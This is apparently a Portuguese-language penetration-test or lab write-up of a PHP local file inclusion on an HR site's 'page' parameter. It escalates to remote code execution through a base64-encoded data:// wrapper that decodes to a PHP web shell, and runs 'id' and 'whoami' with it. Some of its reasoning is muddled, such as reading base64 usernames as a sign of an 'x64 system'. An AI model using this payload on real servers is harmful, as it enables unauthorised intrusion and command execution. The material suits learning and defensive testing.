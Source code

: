 # 💉 No **OSINT** do site identificamos a possibilidade de existência de uma página com fraquezas de **injeção PHP**.  

- Vamos detalhar a análise realizada: 💉💉💉

---

## 📌 Página em questão

<img width="1174" height="850" alt="image" src="https://github.com/user-attachments/assets/8e4eab61-e50f-4932-a89c-153d68a347c5" />

- A página pode conter outros tipos de injeções, mas a vulnerabilidade encontrada foi no **parâmetro da URL**:

👉 Exemplo:  
```
http://rh.businesscorp.com.br/index.php?page=submit
```

---

## 💻 Possíveis Injeções LFI

- O site pode ser suscetível a **Local File Inclusion (LFI)**.  
- Para testar, basta inserir um comando simples como `ls` no final do parâmetro `page`:

👉 Exemplo:  
```
http://rh.businesscorp.com.br/?page=ls
```

<img width="1670" height="267" alt="image" src="https://github.com/user-attachments/assets/8d1545e8-3c03-4939-938a-efea531ff1c2" />

- 🔎 O **erro retornado** já revela informações importantes sobre o servidor:

```
Warning: include(): Failed opening 'ls.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') 
in /var/www/html/index.php on line 54
```

---

## 🧪 Testes Realizados

### Teste 2:
<img width="995" height="207" alt="image" src="https://github.com/user-attachments/assets/ddd1206a-14f5-4ec6-abfd-5a8ce98cd182" />

### Teste 3:
<img width="987" height="173" alt="image" src="https://github.com/user-attachments/assets/44b6b4d2-7e4d-41cb-b10c-b6898e0d6810" />

- Com base nos comandos e erros retornados, foi possível **ajustar a exploração da vulnerabilidade**.

---

## 🔑 Analise de Credenciais Encontradas Antes

- Durante as análises, com base em uma lista que criei a partir da vulnerabilidade da porta 22, observei indícios de credenciais em **Base64**:

- root → `cm9vdA==`  
- ftp → `ZnRw`  

- Isso sugere que o LFI pode estar relacionado a um **sistema x64**, abrindo espaço para **testes de injection em Base64**.

---

## ⚙️ Exploração com Data Wrapper (RCE)

- Pesquisando sobre possíveis **RCEs (Remote Code Execution)**, encontrei que é possível usar `data://text/plain;base64` para injetar comandos.

### ▶️ Executando `id`
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=id
```

<img width="1461" height="193" alt="image" src="https://github.com/user-attachments/assets/ba17d026-9e13-45e5-ac4c-1ac20da10a77" />

- ⚠️ A resposta não aparece diretamente no site, mas analisando via **F12 (DevTools)**, conseguimos verificar que o comando foi processado corretamente.

---

### ▶️ Executando `whoami`
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=whoami
```

<img width="1096" height="194" alt="image" src="https://github.com/user-attachments/assets/c9d29a71-2c0a-489a-a182-f5e6d63bf92a" />

---

# 📖 Conclusão

- ✔️ O site apresenta vulnerabilidades de **LFI** que podem evoluir para **RCE** utilizando técnicas de **Base64 Data Wrapper**.  
- ✔️ Foram identificadas credenciais em **Base64**, sugerindo possível exploração de acesso.  
- ✔️ Apesar de não exibir diretamente no navegador, os comandos executados podem ser verificados no **código-fonte via DevTools**.

- ⚡ Essa análise confirma o risco de exposição crítica do sistema.

---
✍️ Relatório finalizado com base em testes realizados manualmente.
